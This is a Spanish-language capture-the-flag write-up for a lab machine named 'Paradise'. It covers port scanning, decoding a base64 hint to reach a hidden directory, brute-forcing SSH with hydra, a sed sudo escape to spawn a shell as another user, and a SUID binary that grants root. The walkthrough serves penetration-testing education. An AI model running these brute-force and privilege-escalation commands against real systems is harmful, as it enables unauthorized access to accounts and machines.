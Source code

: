 ```yaml
---
description: '✍️ Autor: kaikoperez🔍 Dificultad: Fácil  📅 Fecha de creación: 01/09/2024'
---
```


# Paradise

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../../.gitbook/assets/image (807).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../../.gitbook/assets/image (930).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más. También tenemos un servicio **SMB**.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../../.gitbook/assets/image (931).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web sea una página sobre el paraíso con dos botones sin funcionalidad.

<figure><img src="../../.gitbook/assets/image (932).png" alt=""><figcaption></figcaption></figure>

Si revisamos el código fuente de la página `galery.html` encontramos un troz codificado en **base64** por lo que vamos a decodificarlo.

<figure><img src="../../.gitbook/assets/image (933).png" alt=""><figcaption></figcaption></figure>

```bash
echo "ZXN0b2VzdW5zZWNyZXRvCg==" | base64 -d
```

<figure><img src="../../.gitbook/assets/image (934).png" alt=""><figcaption></figcaption></figure>

Suponemos que será un directorio por lo que vamos a ello.

<figure><img src="../../.gitbook/assets/image (935).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Encontramos un posible usuario llamado **lucas** por lo que realizamos fuerza bruta.

```bash
hydra -l lucas -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (936).png" alt=""><figcaption></figcaption></figure>

Tenemos sus credenciales por lo que nos logueamos a través de **SSH**.

```bash
ssh lucas@172.17.0.2
```

<figure><img src="../../.gitbook/assets/image (937).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../../.gitbook/assets/image (938).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención **sed** por lo que buscamos en esta [página ](https://gtfobins.github.io/gtfobins/sed/)cómo explotarlo.

```bash
sudo -u andy /bin/sed -n '1e exec sh 1>&0' /etc/hosts
```

<figure><img src="../../.gitbook/assets/image (939).png" alt=""><figcaption></figcaption></figure>

Ya somos el usuario **andy** pero no tenemos permisos **SUDO** por lo que buscamos los **SUID**.

```bash
find / -perm -4000 2>/dev/null
```

<figure><img src="../../.gitbook/assets/image (940).png" alt=""><figcaption></figcaption></figure>

Nos llama la atención los dos últimas por lo que le echaremos un vistazo. Lo ejecutamos para ver que hace. Nos escala directamente a **root**.

```bash
/usr/local/bin/privileged_exec
```

<figure><img src="../../.gitbook/assets/image (941).png" alt=""><figcaption></figcaption></figure>
